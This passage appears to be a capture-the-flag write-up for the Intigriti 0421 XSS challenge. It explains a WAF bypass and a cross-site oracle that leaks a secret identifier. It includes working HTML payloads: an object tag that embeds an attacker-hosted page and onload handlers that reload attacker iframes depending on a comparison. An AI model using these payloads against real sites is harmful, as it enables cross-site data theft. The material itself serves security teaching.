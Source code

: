 **Exposing the identifier allows for forgery of arbitrary HTML from any window context.** 

## Waf bypass
1. The WAF isn't very restrictive and it allows for injection of `onXXX` events. However, it restricts characters appearing there to ones outside of the following: ``" ' ` [ ] { } ( ) =``. This is intended to prevent arbitrary code execution, though the charset is not that restrictive. 
2. It is possible to inject `<object data=//atacker.com></object>` to embed an external site.

## The challenge idea
The idea of the challenge comes from a real WAF bypass I discovered. Although it doesn't seem that arbitrary XSS would be possible from the allowed characters, an attacker could inject the following condition 
> `identifier<variable?leak_true:leak_false`

So, the real goal of the challenge is to somehow **leak the identifier cross-site**. 

One can notice that even though standard assignments are forbidden (because of `=`) it is still possible to assign values with either `++` or `--` which more or less work like `+=1` and `-=1`.

## Naive oracle
Let `attacker.com/poc.html` be the following simple page: 
```html
<iframe name=i_true 
        src=//challenge-0421.intigriti.io/style.css
        onload=process(true)
></iframe>
<iframe name=i_false 
        src=//challenge-0421.intigriti.io/style.css
        onload=process(false)
></iframe>
<script>
  function process(value){
    /* do something with the value */
  }
</script>
```

Then by injecting this onto a challenge page via:

```html
<object name=poc 
        data=//attacker.com/poc.html
        onload=identifier</t/.source?top.poc.i_true.location++:top.poc.i_false.location++
></object>
```

depending on the result of the comparison, either iframe `i_true` or `i_false` will be reloaded. That is because `top.poc.i_true.location++` will assign the URL `//challenge-0421.intigriti.io/NaN` to the iframe. 

*Note that it is important that the frames are same-origin otherwise the redirect attempt would fail.*
